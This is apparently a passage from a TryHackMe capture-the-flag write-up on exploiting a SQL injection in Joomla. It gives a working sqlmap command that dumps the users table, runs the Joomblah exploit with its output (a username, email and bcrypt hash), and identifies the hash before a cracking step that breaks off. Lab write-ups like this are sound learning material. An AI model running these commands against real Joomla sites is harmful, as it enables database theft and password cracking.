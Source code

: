 - Found vulnerability:
https://www.exploit-db.com/exploits/42033

```bash
sqlmap -u "http://<remote-ip>/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomla -T '#__users' --dump
```

Ran this script: https://github.com/XiphosResearch/exploits/tree/master/Joomblah

Which needs **python2** and the module **requests** which can be installed with `pip2`. Used this to get `pip2`: https://stackoverflow.com/questions/64187581/e-package-python-pip-has-no-installation-candidate

Result:

```bash
    .---.    .-'''-.        .-'''-.                                                           
    |   |   '   _    \     '   _    \                            .---.                        
    '---' /   /` '.   \  /   /` '.   \  __  __   ___   /|        |   |            .           
    .---..   |     \  ' .   |     \  ' |  |/  `.'   `. ||        |   |          .'|           
    |   ||   '      |  '|   '      |  '|   .-.  .-.   '||        |   |         <  |           
    |   |\    \     / / \    \     / / |  |  |  |  |  |||  __    |   |    __    | |           
    |   | `.   ` ..' /   `.   ` ..' /  |  |  |  |  |  |||/'__ '. |   | .:--.'.  | | .'''-.    
    |   |    '-...-'`       '-...-'`   |  |  |  |  |  ||:/`  '. '|   |/ |   \ | | |/.'''. \   
    |   |                              |  |  |  |  |  |||     | ||   |`" __ | | |  /    | |   
    |   |                              |__|  |__|  |__|||\    / '|   | .'.''| | | |     | |   
 __.'   '                                              |/'..' / '---'/ /   | |_| |     | |   
|      '                                               '  `'-'`       \ \._,\ '/| '.    | '.  
|____.'                                                                `--'  `" '---'   '---' 

 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session
```

Then:

```bash
hashid crackme.txt                                                                                  4s
--File 'crackme.txt'--
Analyzing '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm'
[+] Blowfish(OpenBSD) 
[+] Woltlab Burning Board 4.x 
[+] bcrypt 
--End of file 'crackme.txt'--%
```

So it is a Bcrypt hash, meaning it is resistant to GPU cracking :(

I found this line to speed things up with **hashcat**:
